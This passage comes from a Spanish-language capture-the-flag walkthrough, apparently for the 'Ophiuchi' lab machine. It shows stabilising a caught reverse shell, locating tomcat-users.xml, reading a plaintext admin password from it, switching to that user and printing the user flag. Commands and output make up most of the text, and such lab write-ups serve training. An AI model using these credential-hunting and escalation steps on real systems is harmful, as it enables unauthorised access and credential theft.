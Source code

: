 ```bash
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
tomcat@ophiuchi:/$ export TERM=xterm
tomcat@ophiuchi:/$ export SHELL=bash
tomcat@ophiuchi:/$ stty rows 48 columns 184 #dependera del tamaño de tu pantalla "ejecuta stty size"
```
Nos dirigimos al directorio `home` y tratamos de leer la primera flag `user.txt` pero vemos que no tenemos acceso:

```bash
tomcat@ophiuchi:/$ cd /home
tomcat@ophiuchi:/home$ ls
admin
tomcat@ophiuchi:/home$ cd admin/
tomcat@ophiuchi:/home/admin$ ls
user.txt
tomcat@ophiuchi:/home/admin$ cat user.txt 
cat: user.txt: Permission denied
tomcat@ophiuchi:/home/admin$
```

Como vemos que somos `tomcat`, si recordamos su estructura sabemos que existe un archivo llamado `tomcat-users.xml`

```bash
tomcat@ophiuchi:/home/admin$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ophiuchi:/home/admin$ find / -name tomcat-users.xml 2>/dev/null
/opt/tomcat/conf/tomcat-users.xml
tomcat@ophiuchi:/home/admin$
```

Perfecto lo encontramos, ahora procedemos a leerlo y si efectivamente encontramos una credencial que corresponde al usuario `admin`


```bash
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
	version="1.0">
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```
Procedemos esa contraseña con el usuario `admin` y bingo!, somos el usuario 'admin' y ahora si podemos visualizar la primera flag `user.txt`.

```bash
tomcat@ophiuchi:/home/admin$ su admin
Password: 
admin@ophiuchi:~$ whoami
admin
admin@ophiuchi:~$ cat user.txt 
330298484fe5a40840ac52e730fb7f15
```
Ahora anteriormente vimos en la fase de reconocimiento que el puerto `22` estaba abierto, asi que por que no probemos a conectarnos por `ssh`:
